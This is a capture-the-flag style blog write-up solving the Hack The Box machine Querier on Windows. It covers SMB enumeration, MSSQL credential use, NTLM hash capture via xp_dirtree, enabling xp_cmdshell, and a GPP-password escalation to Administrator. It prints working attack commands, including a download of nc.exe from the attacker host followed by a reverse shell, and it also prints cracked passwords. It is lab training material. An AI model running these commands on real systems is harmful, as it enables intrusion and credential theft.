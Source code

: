 ```yaml
---
layout: post
title: Hack The Box - Querier (Commando)
categories: hack-the-box
tags: [Windows, RCE, smb]
image: /hackthebox/querier-2/0.png
---
```


<hr>
### Quick Summary
#### Hey guys this is the second post for Querier, you can read the first post [here](/hack-the-box/querier). In the first post I solved it with kali, In this post I will solve it with commando vm. Querier's ip is `10.10.10.125` I added it to `C:\Windows\System32\drivers\etc\hosts` as `querier.htb`. Let's jump right in !
![](/images/hackthebox/querier-2/0.png)
<hr>
### Nmap
#### As always we will start with `nmap` to scan for open ports and services :
`nmap -sV -sT -sC querier.htb`
![](/images/hackthebox/querier-2/1.png)
#### We got `smb` and `mssql` server on port 1433. We don't have credentials for `mssql` so let's check `smb`.
<br>
<hr>
### Smb
#### We need to list the shares, We can do that using `net view` :
`net view querier.htb`
![](/images/hackthebox/querier-2/2.png)
#### It only showed us `Reports` because it's the only share that we can access anonymously which is nice. 
#### We can mount the share from `cmd` with `net use` :
`net use Z: \\querier.htb\Reports /persistent:yes`
![](/images/hackthebox/querier-2/3.png)
<br>
<br>
![](/images/hackthebox/querier-2/4.png)
#### We can also do it from the file explorer :
![](/images/hackthebox/querier-2/5.png)
<br>
<br>
![](/images/hackthebox/querier-2/6.png)
<hr>
### MSSQL
#### I used `olevba` to get credentials from the excel file like I did in the [first post](/hack-the-box/querier/) :
![](/images/hackthebox/querier-2/7.png)
#### To connect to the `mssql` server I will use [HeidiSQL](https://www.heidisql.com/) :
![](/images/hackthebox/querier-2/8.png)
#### However, authentication failed :
![](/images/hackthebox/querier-2/9.png)
#### I tried windows authentication :
![](/images/hackthebox/querier-2/10.png)
#### But it also failed because it was trying as guest not reporting :
![](/images/hackthebox/querier-2/11.png)
#### To solve this we can use `runas` to run `heidi` as reporting :
`runas /netonly /user:QUERIER\reporting cmd.exe`
![](/images/hackthebox/querier-2/12.png)
#### From the new `cmd` session I ran `heidi` :
![](/images/hackthebox/querier-2/13.png)
#### Now windows authentication worked :
![](/images/hackthebox/querier-2/14.png)
#### Got permission denied for `xp_cmdshell` :
![](/images/hackthebox/querier-2/15.png)
#### We can run a fake `smb` server to capture credentials using a tool called `Inveigh` which works like responder. From `powershell` I imported `Inveigh` (`Import-Module C:\Tools\Inveigh\Inveigh.ps1`). Then I disabled the firewall (`netsh advfirewall set allprofiles state off`) and invoked `Inveigh` (`Invoke-Inveigh -IP 10.10.xx.xx -ConsoleOutput Y`). 
#### From `Heidi` I used `xp_dirtree` :
`EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/querier-2/16.png)
#### `Inveigh` captured the `NTLMv2` hash for `mssql-svc` :
![](/images/hackthebox/querier-2/17.png)
#### After cracking the hash on another box the password is `corporate568`. Now we can use `runas` to run `Heidi` as `mssql-svc` :
`runas /netonly /user:QUERIER\mssql-svc "C:\Program Files\HeidiSQL\heidisql.exe"`
![](/images/hackthebox/querier-2/18.png)
#### Queries to enable `xp_cmdshell` :
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
![](/images/hackthebox/querier-2/19.png)
<br>
<br>
![](/images/hackthebox/querier-2/20.png)
#### Great, we got `RCE`. I ran a python server to host `nc.exe` then I downloaded it on the box and got a reverse shell :
```
EXEC xp_cmdshell 'powershell Invoke-WebRequest -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.xx.xx/nc.exe';
EXEC xp_cmdshell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.xx.xx 1337'
```
![](/images/hackthebox/querier-2/21.png)
<br>
<br>
![](/images/hackthebox/querier-2/22.png)
#### We owned user.
<br>
<hr>
### GPP, Privilege Escalation, Root Flag
#### As I said in the [first post](/hack-the-box/querier/), when I checked group policy passwords I found Administrator's password. There are privilege escalation enumeration scripts for Windows like `LinEnum.sh` for Linux one of them is [`powerup.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and it checks for group policy passwords. Let's check that one :
![](/images/hackthebox/querier-2/23.png)
<br>
<br>
![](/images/hackthebox/querier-2/24.png)
<br>
<br>
![](/images/hackthebox/querier-2/25.png)
#### It also decrypts the password which is nice. Password : `MyUnclesAreMarioAndLuigi!!1!`
#### Now we can use `psexec` to get a shell as Administrator. I used `runas` to start `cmd` as `QUERIER\Administrator` then I used `psexec` :
`runas /netonly /user:QUERIER\Administrator cmd.exe`
<br>
<br>
`psexec \\querier.htb cmd`
![](/images/hackthebox/querier-2/26.png)
#### And we owned root !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### First write-up : [Hack The Box - Querier](/hack-the-box/querier)
#### Previous Hack The Box write-up : [Hack The Box - Flujab](/hack-the-box/flujab/)
#### Next Hack The Box write-up : [Hack The Box - Netmon](/hack-the-box/netmon/)
<hr>
